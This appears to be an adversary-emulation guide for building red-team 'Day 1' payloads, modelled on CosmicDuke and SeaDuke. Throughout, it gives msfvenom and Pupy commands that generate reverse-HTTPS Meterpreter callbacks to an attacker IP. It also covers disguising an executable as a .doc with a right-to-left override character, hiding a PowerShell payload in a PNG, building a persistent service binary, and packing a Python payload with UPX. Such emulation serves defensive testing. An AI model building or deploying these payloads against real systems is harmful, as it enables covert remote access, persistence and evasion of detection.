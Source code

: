 ### Create Day 1 Payloads


#### 1. CosmicDuke Payload (cod.3aka3.scr)

| Filename | Location | Description |
| ------ | ------ | ------ |
| cod.3aka3.scr | payloads/cod.3aka3.scr | Portable executable that uses right-to-left override character to disguise file extension |


1. Generate a Pupy-EC4 callback payload:

```
gen -o cod.3aka3.scr -f client -O windows -A x64 connect -t ec4 --host <attacker IP>:1234
```

2. On Windows attack platform, rename cod.3aka3.scr with right-to-left override character (https://redcanary.com/blog/right-to-left-override/)
  
    1. Windows key and type 'Character Map'; select open
    2. Scroll to the RTLO character (U+202E)
    3. Select the RTLO character, then click "select", then click "copy"
    4. Right click `cod.3aka3.scr`, then click "Rename"
    5. Move cursor to begining of filename. Press "ctrl-v" to paste RTLO character, and hit "enter" to save the rename.
    6. The file should now be named "rcs.3aka3.doc"

![alt text](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/041515_2317_SpoofUsingR1.png)

Screenshot taken from: https://resources.infosecinstitute.com/spoof-using-right-to-left-override-rtlo-technique-2/


#### 2. Privilege Escalation Payload (monkey.png)

| Filename | Location | Description |
| ------ | ------ | ------ |
| monkey.png | payloads/monkey.png | Well formed PNG with embedded PowerShell-Meterpreter callback |

Steps to re-create:
1. Generate a PowerShell-formatted Meterpreter payload:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 --format psh -o meterpreter.ps1
```

2. Transfer meterpreter.ps1 to Windows attack platform; embed meterpreter.ps1 into a PNG file using Invoke-PSImage (https://github.com/peewpw/Invoke-PSImage):

```
Import-Module .\Invoke-PSImage.ps1
```

```
Invoke-PSImage -Script .\meterpreter.ps1 -Out .\monkey.png -Image .\monkey.jpg
```

#### 3. Startup Folder Payload (strings64/hostui.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| strings64.exe | payloads/SysinternalsSuite/strings64.exe | Launches Meterpreter using CreateProcessWithToken API call 
1. Generate PowerShell-formatted Meterpreter:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 --format psh-cmd
```

2. Copy the PowerShell 1-liner to clipboard. Your clipboard should look like: 

`powershell.exe -nop -w hidden -e aQBmAc...base64 string...KAOwa=`

Do **not** copy the execution preamble (`%COMSPEC% /b /c start /b /min`)

3. Open `payloads/readme.txt`; paste the PowerShell-Meterpreter blog on line `816`. This line should look like:

`$javasvc = "powershell.exe -nop -w hidden -e aQBmAc...base64 string...KAOwa="`

#### 4. Persistent Service Payload (javamtsup.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| javamtsup.exe | payloads/SysinternalsSuite/javamtsup.exe | Reverse HTTPS Meterpreter service executable |

1. Generate a Meterpreter service-binary:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker IP> LPORT=443 -f exe-service -o javamtsup.exe
```

#### 5. SeaDuke Payload (python.exe)

| Filename | Location | Description |
| ------ | ------ | ------ |
| python.exe | payloads/Seaduke/python.exe | Python Meterpreter compiled to EXE with PyInstaller |

1. Generate python-formatted Meterpreter:

```
msfvenom -p python/meterpreter/reverse_https LHOST=<attacker IP> LPORT=8443 -o python.py
```

2. Transfer pyton.py to Windows attack platform

3. Compile python.py into a portable executable using PyInstaller (https://pypi.org/project/PyInstaller/)

```
pyinstaller -F python.py
```

4. Pack the python.exe payload using UPX (https://github.com/upx/upx)

```
upx --brute python.exe
```
